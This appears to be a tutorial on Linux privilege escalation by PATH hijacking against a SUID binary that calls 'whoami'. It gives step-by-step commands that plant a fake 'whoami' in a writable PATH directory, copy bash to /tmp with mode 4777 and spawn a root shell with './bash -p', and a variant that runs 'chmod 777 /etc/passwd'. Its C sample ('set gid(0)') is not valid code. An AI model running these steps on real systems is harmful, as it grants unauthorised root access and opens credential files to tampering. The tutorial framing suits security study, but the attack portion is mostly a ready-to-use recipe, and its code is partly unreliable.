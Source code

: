 Privilege Escalation through Path Hijacking occurs when an attacker is able to place a malicious executable with the same name as a trusted program earlier in the PATH order, 
they can trick the system into running the malicious executable instead of the legitimate one.

**Note:** These techniques rely on the SUID bit being set on the binary and require execution with elevated privileges.

**If there's a binary which contains the following code:**
```
int main (void) {
 set gid(0);
 set uid(0);
 system(“whoami”);
}
```
This binary, without the SUID bit set, will run as the user executing it. 
For example, if the binary is run as root, the output of the whoami command will show "root". 
However, if the SUID bit is set on the binary, it will always run as root, regardless of the user running it.

**Use the strings command to check the contents of a binary for any known commands that may be useful:**
```
strings user_hello
```
In the output, we need to look for any familiar command. 
For example, In the output of this command we will find, system setuid setgid and whoami commands

**The $PATH environment variable contains a list of directories that the system searches when trying to locate executable files.**
```
echo $PATH
```
For example, in the output 
```/home/user1/.local/bin:/home/user1/bin:/usr/local/bin:/usr/bin:/usr/local/sbin:/usr/sbin```
It means that it will search for the binary first in “/home/user1/.local/bin”, then “/home/user1/bin” and so on.

**Find a directory where you have write permissions, such as:**
```cd /home/user1/.local/bin```

**Create a custom binary named whoami in this directory:**
```
vim whoami

#!/bin/bash
cp /usr/bin/bash /tmp/bash 
chmod 4777 /tmp/bash
```
**Make it executable:**
```chmod +x whoami```

**When executing user_hello, it follows the $PATH order and runs this custom 'whoami' first.**
```
./user_hello

ls -lh /tmp/
cd /tmp/
./bash -p
id
sudo su - 
```

**If the $PATH variable does not include a writable directory, or if the writable directory appears last in the list, you can modify the $PATH to prioritize a directory you control.**
```
export PATH=/tmp:$PATH
echo $PATH
```
Now, /tmp is the first directory searched when executing commands.

**Navigate to /tmp and create a script named whoami:**
```
vim whoami
```
**Add the following content to the script:**
```
#!/bin/bash
chmod 777 /etc/passwd
```
**Save the file and make it executable:**
ls -lh /tmp/whoami
```
chmod +x whoami
```
**Finally, run the binary:**
```
./user_hello
```
